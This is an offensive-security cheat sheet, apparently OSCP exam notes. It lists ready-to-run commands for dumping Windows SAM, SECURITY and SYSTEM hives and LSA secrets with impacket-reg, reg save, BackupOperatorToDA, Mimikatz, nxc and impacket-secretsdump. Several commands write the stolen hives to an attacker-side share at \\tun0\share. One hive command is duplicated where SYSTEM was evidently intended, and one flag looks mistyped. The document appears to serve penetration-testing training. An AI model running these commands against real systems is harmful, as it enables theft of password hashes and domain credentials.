 *  Saving each Hive manually 

```bash
impacket-reg domain/user:password@dc.oscp.exam save -KeyName 'HKLM\SECURITY' -o '\\tun0\share'
```

```bash
impacket-reg domain/user:password@dc.oscp.exam save -KeyName 'HKLM\SAM' -o '\\tun0\share'
```

```bash
impacket-reg domain/user:password@dc.oscp.exam save -KeyName 'HKLM\SECURITY' -o '\\tun0\share'
```

* Backup all at once

```bash
impacket-reg domain/user:password@dc.oscp.exam backup -o '\\tun0\share'
```

* In Windows (check for old saves like windows.old or win32\old\)
```powershell
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
```

```powershell
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
```

```powershell
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

* using [BackupOperatortoDA](https://github.com/mpgn/BackupOperatorToDA)

```powershell
BackupOperatorToDA.exe -d "oscp.exam" -u "user" -p "password" -t "$IP" -o "\\tun0\share"
```

* Using Mimikatz

```powershell
privilege::debug
lsadump::sam
lsadump::secrets
```

* Using nxc

```bash
nxc smb $IP -u user -p password --sam/ --lsa
```

* Offline crack with secretsdump

```bash
impacket-secretsdump -sam SAM.save  -system SYSTEM.save -security SECURITY.save LOCAL
```

* Remote Dumping of Hashes

```bash
impacket-secretsdump oscp.exam/user:password@target
```

